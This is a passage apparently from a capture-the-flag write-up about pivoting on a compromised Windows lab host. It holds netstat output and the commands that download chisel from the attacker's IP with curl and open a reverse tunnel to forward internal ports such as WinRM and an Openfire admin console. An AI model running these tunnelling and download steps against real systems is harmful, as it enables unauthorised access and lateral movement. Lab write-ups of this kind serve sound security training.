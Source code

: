 ```powershell
  TCP    10.10.11.16:139        0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:5000         0.0.0.0:0              LISTENING       2348
  TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5223         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5262         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5263         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5269         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5270         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5275         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:5276         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:7070         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:7443         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3160
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3160
  TCP    [::]:135               [::]:0                 LISTENING       912
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       688
  TCP    [::]:49665             [::]:0                 LISTENING       536
  TCP    [::]:49666             [::]:0                 LISTENING       1072
  TCP    [::]:49667             [::]:0                 LISTENING       1672
  TCP    [::]:49668             [::]:0                 LISTENING       668
```

I will download chisel and forward all the ports that are not related to xmpp and aren't visible externally (5040, 5000, 7070, 7443, 9090, 9091, 5985). If I don't find nothing interesting, I will look for xmpp ports:

```bash
❯ ./chisel_linux server -p 1234 --reverse
2024/09/21 12:22:33 server: Reverse tunnelling enabled
2024/09/21 12:22:33 server: Fingerprint 2XjrlLyYw7dYEkmD4vDUm9qGPQLDk4kI0vlY/LjSvxU=
2024/09/21 12:22:33 server: Listening on http://0.0.0.0:1234
```

```powershell
PS C:\Windows\Temp\privesc> curl.exe http://10.10.15.95/chisel_windows.exe -o chisel.exe
PS C:\Windows\Temp\privesc> .\chisel.exe client 10.10.15.95:1234 R:5040:127.0.0.1:5040 R:5000:127.0.0.1:5000 R:7070:127.0.0.1:7070 R:7443:127.0.0.1:7443 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091 R:5985:127.0.0.1:5985
```

> Note: To make the command more easy I executed `for port in "5040" "5000" "7070" "7443" "9090" "9091" "5985"; do echo -n "R:$port:127.0.0.1:$port ";done;echo` to have the part of the command that forward the ports.

The port 9090 consists on a openfire administration console version 4.7.4: